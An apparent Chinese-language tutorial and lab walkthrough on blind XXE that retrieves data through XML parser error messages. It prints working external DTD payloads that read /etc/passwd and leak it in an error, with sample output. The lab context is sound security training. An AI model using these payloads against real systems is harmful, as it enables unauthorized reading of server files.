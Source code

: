 

---


---


> 
<h3>5、利用盲态XXE通过错误消息检索数据</h3>
1、利用盲XXE的另一种方法是触发XML解析错误，其中错误消息包含希望检索的敏感数据。如果应用程序在其响应中返回结果错误消息，则此操作将有效。
<pre><code>可以触发一条XML分析错误消息，该消息包含/etc/密码文件使用恶意外部DTD：
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY &amp;#x25; error SYSTEM 'file:///nonexistent/%file;'&gt;"&gt;
%eval;
%error;

此DTD执行以下步骤：
    1、定义名为的XML参数实体file，包含的内容/etc/passwd文件。
    2、定义名为的XML参数实体eval，包含另一个XML参数实体的动态声明，该实体名为error。该error将通过加载一个不存在的文件（该文件的名称包含file实体。
    3、使用eval实体的动态声明，它将导致error要执行的实体。
    4、使用error实体，以便通过尝试加载不存在的文件来计算其值，从而生成包含不存在的文件的名称的错误消息，该文件是/etc/passwd文件。</code></pre>

2、调用恶意的外部DTD将导致出现如下错误消息：
<pre><code>java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...</code></pre>
<hr/>
3、涉及实验：<br/> 实验6：利用盲态XXE通过错误消息检索数据


> 
<h3>实验6：利用盲态XXE通过错误消息检索数据</h3>
信息：
本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。
解决实验：使用外部DTD触发错误消息，以显示/etc/passwd文件的内容。
本实验包含一个链接，该链接指向可托管恶意DTD的其他域中的漏洞攻击服务器。
<hr/>
part1:
 访问一个产品页面，点击"检查库存"，并使用BP拦截产生的POST请求，并发送到repeater




<hr/>
part2:
上传DTD文件

单击"Go to exploit server"（转到利用漏洞服务器）并将恶意DTD文件保存在您的服务器上。
<pre><code>上传恶意DTD文件：
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY &amp;#x25; exfil SYSTEM 'file:///invalid/%file;'&gt;"&gt;
%eval;
%exfil;

</code></pre>
